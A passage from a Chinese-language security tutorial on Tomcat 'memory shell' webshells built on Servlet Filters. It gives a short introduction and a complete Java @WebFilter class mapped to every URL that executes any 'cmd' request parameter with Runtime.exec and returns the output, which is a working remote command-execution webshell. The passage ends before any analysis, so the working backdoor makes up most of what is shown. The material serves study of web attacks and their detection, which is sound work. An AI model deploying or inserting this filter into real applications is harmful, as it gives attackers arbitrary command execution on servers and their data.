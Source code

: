# Tomcat内存马之Filter

## 前言

关于 Filter 的知识，在前面 [Filter](../../01-JavaWeb基础/2-Filter/Filter.md) 章节已经学习过，这里不再赘述，直接进入分析环节。

## Filter流程分析

先编写一个简单的 Filter 实现类
```java
package com.servlet.study;

import javax.servlet.*;
import javax.servlet.annotation.WebFilter;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/21 10:41
 */
@WebFilter(filterName = "FilterTest", urlPatterns = {"/*"})
public class FilterTest implements Filter {

    public void init(FilterConfig filterConfig) throws ServletException {

    }

    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        try{
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                servletResponse.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
        // 使下一个 Filter 能够继续执行
        filterChain.doFilter(servletRequest,servletResponse);
    }

    public void destroy() {

    }
}
```
